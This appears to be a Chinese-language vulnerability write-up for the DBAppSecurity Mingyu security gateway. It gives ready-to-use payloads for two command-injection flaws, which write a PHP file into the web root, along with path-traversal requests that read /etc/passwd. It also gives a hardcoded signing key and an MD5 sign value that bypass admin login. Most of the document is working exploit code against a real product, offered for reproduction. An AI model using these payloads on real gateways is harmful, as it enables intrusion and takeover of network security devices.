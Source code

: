 # 安恒 明御安全网关 命令执行 任意文件读取漏洞

# 安恒 明御安全网关 命令执行 任意文件读取漏洞

## 漏洞描述

安恒信息明御安全网关存在命令执行漏洞，导致攻击者可以直接执行系统命令，从而控制目标系统。

## 漏洞分析

参考阅读：

- https://r0fus0d.blog.ffffffff0x.com/post/oem-case/

## 漏洞复现

### 命令执行 1

漏洞 URL：

```
/webui/?g=aaa_portal_auth_local_submit&suffix=
```

poc：

```
/webui/?g=aaa_portal_auth_local_submit&suffix=%0aecho%20%27%3C%3Fphp%20echo%20%22test%20-%20Open%20source%20project%20%28github.com%2Ftest%2Ftest%29%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2F111111112.php&bkg_flag=0
```

### 命令执行 2

漏洞 URL：

```
/webui/?g=aaa_portal_auth_config_reset&type=
```

poc：

```
/webui/?g=aaa_portal_auth_config_reset&type=%0aecho%20%27%3C%3Fphp%20echo%20%22test%20-%20Open%20source%20project%20%28github.com%2Ftest%2Ftest%29%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2F111111111.php%0a
```

### 任意文件读取

poc：

```
requests:
  - method: GET
    path:
      - "{{BaseURL}}/webui/?g=sys_dia_data_down&file_name=../etc/passwd"
      - "{{BaseURL}}/webui/?g=sys_dia_data_check&file_name=../../../../../../../../etc/passwd"
      - "{{BaseURL}}/webui/?g=sys_capture_file_download&name=../../../../../../../../etc/passwd"
      - "{{BaseURL}}/webui/?g=sys_corefile_sysinfo_download&name=../../../../../../../../etc/passwd"
```

### 验证码绕过

poc：

```
/remote_auth.php?user=admin&pwd=admin&sign=ba84d9dd91eb304aca57f0a8f052623e
```

其中 sign 硬编码在 `/usr/local/webui/remote_auth.php` 中：

```php
if($_GET['user']!=null) $usr = formatget($_GET['user']);
if($_GET['pwd']!=null) $pwd = formatget($_GET['pwd']);
if($_GET['sign']!=null) $sign = formatget($_GET['sign']);
$key= 'saplingos!@#$%^&*';//这个key你们协商后保存一致即可
//ba84d9dd91eb304aca57f0a8f052623e
if(empty($usr)){
	die('user_null');
}
else if(empty($pwd)){
	die('pwd_null');
}
else if (!$sign){
	die('sign_null');
}
else if ($sign != md5($key)){
	die('sign_error');
}
else{
	if (isset($usr, $pwd)) {
		LoginHandler::login($usr, $pwd, $num,'',$remote_auth = true);
	}
	$fail_msg = '';
	if (LoginHandler::isLoginFail()) {
		$fail_msg = $_SESSION[ERROR_STR];
		if (strlen($fail_msg) <= 0) {
			$fail_msg = LocalUtil::getCommonResource('login_failed');
		}
		die($fail_msg);
	}
}
```

可以通过任意文件读取漏洞读取 key，然后进行爆破。

